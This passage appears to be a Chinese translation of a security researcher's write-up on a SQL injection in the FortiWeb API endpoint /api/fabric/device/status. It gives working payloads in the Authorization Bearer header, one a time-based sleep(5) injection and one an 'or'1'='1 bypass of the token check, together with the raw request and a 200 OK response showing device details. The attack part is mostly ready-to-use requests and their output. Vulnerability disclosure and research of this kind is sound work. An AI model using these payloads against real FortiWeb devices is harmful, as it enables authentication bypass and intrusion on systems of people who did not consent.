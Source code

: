 ```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'/**/or/**/sleep(5)--/**/-'


```

  
相信你也能感受到我们的喜悦：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibhYJdV1F0ZWeqrO6y6uiaWUJiarfuNKF6P1sSTF9paxtgAGHqIYpGNic2g/640?wx_fmt=png&from=appmsg "")  
  
现在让我们回到 80 年代（也就是现代 Fortinet 的现状），用经典的 
```
OR 1=1
```

  
来测试这个软件。  
  
这让我们可以完全绕过 token 检查，对于想要检测漏洞存在而不想直接进行漏洞利用的情况特别有用：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibWHGJUG8PtuxAXnrrJtddQ3NSAwuV1sUZh6eQ2jngb6G9cDyAClvX6w/640?wx_fmt=png&from=appmsg "")  
  
对于正在跟进的读者，这里是原始的 HTTP 请求：  

```
GET /api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'or'1'='1
```

  
漂亮，
```
200 OK
```

  
HTTP 响应 - 确认我们的 SQL 注入 (SQL Injection) 成功，并且成功绕过了 token 检查：  

```
HTTP/1.1 200 OK
Date: Thu, 10 Jul 2025 17:20:09 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Content-Security-Policy: Script-Src 'self', frame-ancestors 'self'; Object-Src 'self'; base-uri 'self';
X-Content-Type-Options: nosniff
Content-Length: 248
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json


{ &#34;serial&#34;: &#34;FVVM00UNLICENSED&#34;, &#34;device_type&#34;: &#34;fortiweb&#34;, &#34;model&#34;: &#34;FortiWeb-VM&#34;, &#34;version&#34;: { &#34;major&#34;: 7, &#34;minor&#34;: 6, &#34;patch&#34;: 3 }, &#34;build&#34;: { &#34;number&#34;: 1043, &#34;release_life_cycle&#34;: &#34;GA&#34; }, &#34;hostname&#34;: &#34;FortiWeb&#34;, &#34;supported_api_versions&#34;: [ 1 ] }
```
